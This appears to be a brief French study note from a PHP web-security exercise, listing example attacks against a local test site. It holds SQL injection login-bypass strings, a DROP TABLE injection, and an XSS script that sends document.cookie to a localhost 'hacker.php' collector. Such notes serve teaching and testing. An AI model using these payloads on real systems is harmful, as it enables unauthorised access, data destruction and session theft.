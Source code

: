 sql injection 
un nom d'utilisateur malveillant tel que 
admin' OR '1'='1  et un mot de passe ' OR '1'='1


Si on veut supprimer une table on peut mettre :
 ';Drop table posts ;--
-------------------------
xss
<script>window.location =
'http://localhost/php-security/xss/hacker.php?cookie='+escape(document.cookie)</script>



